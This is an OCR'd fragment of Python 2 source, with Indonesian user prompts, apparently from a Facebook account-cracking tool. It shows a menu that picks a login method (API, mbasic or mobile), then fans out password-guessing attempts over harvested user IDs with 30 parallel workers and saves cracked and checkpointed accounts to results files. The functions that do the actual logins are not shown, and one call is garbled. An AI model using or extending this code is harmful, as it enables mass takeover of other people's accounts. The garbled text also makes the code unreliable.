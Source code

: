                             hasil(ok,cp)

                        elif cin == '2':

                            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)

                            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)

                            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)

                            with YayanGanteng(max_workers=30) as (__yayanXD__):

                                for ikeh in self.id:

                                    try:

                                        kimochi = ikeh.split('<=>')[1]

                                        __yayanXD__.submit(self.__mbasic__, kimochi, ysc)

                                    except: pass

                            os.remove(self.apk)

                            hasil(ok,cp)

                        elif cin == '3':

                            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)

                            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)

                            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)

                            with YayanGanteng(max_workers=30) as (__yayanXD__):

                                for ikeh in self.id:

                                    try:

                                        kimochi = ikeh.split('<=>')[1]

                                        __yayanXD__.submit(self.__mfb,__, kimochi, ysc)

                                    except: pass

                            os.remove(self.apk)

                            hasil(ok,cp)

                        else:

                            print '\n %s[%s×%s] input yang bener'%(N,M,N);__yan__()

                    print '\n [ pilih method login - silahkan coba satu² ]\n'

                    print ' [%s1%s]. method API (fast)'%(O,N)

                    print ' [%s2%s]. method mbasic (slow)'%(O,N)

                    print ' [%s3%s]. method mobile (super slow)'%(O,N)

                    __yan__(pwek.split(','))

                    break
